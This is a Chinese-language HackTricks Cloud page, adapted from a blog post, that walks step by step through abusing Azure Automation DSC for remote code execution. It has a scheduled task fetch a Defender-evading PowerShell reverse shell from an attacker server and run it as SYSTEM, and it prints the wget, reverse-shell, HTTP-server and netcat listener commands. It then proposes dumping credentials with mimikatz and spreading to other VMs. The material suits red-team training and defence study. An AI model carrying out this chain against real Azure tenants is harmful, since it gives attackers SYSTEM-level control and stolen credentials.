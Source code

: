 # Az - 状态配置 RCE

<details>

<summary><strong>从零开始学习AWS黑客技术，成为</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>！</strong></summary>

支持HackTricks的其他方式：

* 如果您想在**HackTricks中看到您的公司广告**或**下载HackTricks的PDF**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取[**官方PEASS & HackTricks商品**](https://peass.creator-spring.com)
* 发现[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们独家的[**NFTs系列**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram群组**](https://t.me/peass) 或在**Twitter** 🐦 上**关注**我 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。**

</details>

**本文摘自** [**https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe**](https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe)

### 远程服务器 (C2) 基础设施准备 <a href="#f0fa" id="f0fa"></a>

我将在远程服务器“40.84.7.74”上托管一个精简版的Nishang Invoke-PowerShellTcp.ps1有效载荷，该服务器是Kali盒子。有效载荷名称将是“RevPS.ps1”。为了防止Nishang脚本因任何原因（也许您宁愿将文件保存到磁盘）被Windows Defender删除，我在这里有一个轻量级版本，您可以使用它来绕过Defender：[https://github.com/nickpupp0/AzureDSCAbuse/blob/master/RevPS.ps1](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/RevPS.ps1)。这将由Kali盒子上的一个简单Python Simple Server托管。

### 步骤 1 — 创建文件 <a href="#89de" id="89de"></a>

我们需要创建另一个DSC配置文件。模板可以在这里下载：[https://github.com/nickpupp0/AzureDSCAbuse/blob/master/reverse\_shell\_config.ps1](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/reverse\_shell\_config.ps1)。这个配置文件将使用我们之前使用的相同的文件写入功能。这次，内容包括从我们的远程服务器下载和执行有效载荷的代码。此外，我们正在使用_ComputerManagementDsc_模块中可用的计划任务功能。计划任务功能将是执行的关键角色，并稍后为我们提供SYSTEM权限。

我们还将下载一个脚本，用于将我们的配置发布到VM。它位于这里：[https://github.com/nickpupp0/AzureDSCAbuse/blob/master/push\_reverse\_shell\_config.ps1](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/push\_reverse\_shell\_config.ps1)。

这些文件将作为模板。**您需要用您正在使用的变量名和参数填充**。这包括资源名称、文件路径以及您正在使用的外部服务器/有效载荷名称。请参考代码中的注释。

<figure><img src="../../../../.gitbook/assets/image (3) (1) (1) (1) (2).png" alt=""><figcaption></figcaption></figure>

### 步骤 2 — 压缩配置文件 <a href="#c2c2" id="c2c2"></a>

创建了两个文件后，我们将**‘reverse\_shell\_config.ps1’** 文件压缩，以便可以发送到存储账户
```
Compress-Archive -Path .\reverse_shell_config.ps1 -DestinationPath .\reverse_shell_config.ps1.zip
```
<figure><img src="../../../../.gitbook/assets/image (38).png" alt=""><figcaption></figcaption></figure>

### 步骤 3 — 设置存储上下文 & 上传 <a href="#bed9" id="bed9"></a>

再次，我们将设置我们的存储账户的上下文，我已经完成了这个步骤。我已经有了一个名为‘**azure-pentest**’的容器，所以我将在这里发布我的内容：
```
Set-AzStorageBlobContent -File "reverse_shell_config.ps1.zip" -Container "azure-pentest" -Blob "reverse_shell_config.ps1.zip" -Context $ctx
```
### 第4步 — 准备Kali盒子 <a href="#20fb" id="20fb"></a>

在我们的Kali盒子中，我们可以简单地使用_wget_来下载我们的PowerShell有效载荷。原始的反向Shell脚本位于此处：[https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1](https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1)。
```
wget https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1
```
```markdown
<figure><img src="../../../../.gitbook/assets/image (8) (2).png" alt=""><figcaption></figcaption></figure>

我们需要通过添加我们的参数来编辑反向 shell 脚本，以便 Windows VM 知道一旦执行后要连接到哪里。在我的情况下，我添加了以下内容：
```
```
RevPShell -Reverse 40.84.7.73 443
```
### 步骤 5 — 发布配置文件 <a href="#9ad6" id="9ad6"></a>

现在我们将运行我们的配置文件。我将我的配置文件设置为发布到桌面以便更好地可视化，但它几乎可以发布到任何地方。几分钟后，我们将看到反向 shell 脚本已经发布！

<figure><img src="../../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 步骤 6 — 托管有效载荷并设置监听器 <a href="#c55f" id="c55f"></a>

一旦我们发布配置，我们可以同时启动一个 Python SimpleHTTPServer 在 80 端口上托管有效载荷，以及一个 netcat 监听器以捕获连接：
```
sudo python -m SimpleHTTPServer 80sudo nc -nlvp 443
```
我们看到计划任务已经运行，我们的有效载荷被检索并以**SYSTEM**级别权限在内存中执行！

<figure><img src="../../../../.gitbook/assets/image (1) (3) (1).png" alt=""><figcaption></figcaption></figure>

### 总结 <a href="#1ec2" id="1ec2"></a>

这为我们打开了许多可能性。由于我们有一个以**SYSTEM**运行的shell，我们可以使用mimikatz转储凭据（取决于云资源的EDR成熟度，这可能有风险）。如果你转储了凭据，很有可能这些凭据可以在不同资源中重复使用。最后，一个重要的收获是，你现在有能力将这个配置应用到多个VM上，而不仅限于一个VM。

就此，我们的Azure自动化DSC冒险就结束了！我希望你玩得开心，学到了很多，并继续用你自己的创造力扩展知识。

<details>

<summary><strong>从零开始学习AWS黑客技术，成为</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>！</strong></summary>

支持HackTricks的其他方式：

* 如果你想在**HackTricks中看到你的公司广告**或**下载HackTricks的PDF**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取[**官方的PEASS & HackTricks商品**](https://peass.creator-spring.com)
* 发现[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们独家的[**NFTs系列**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram群组**](https://t.me/peass) 或在**Twitter** 🐦 上**关注**我 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享你的黑客技巧。

</details>
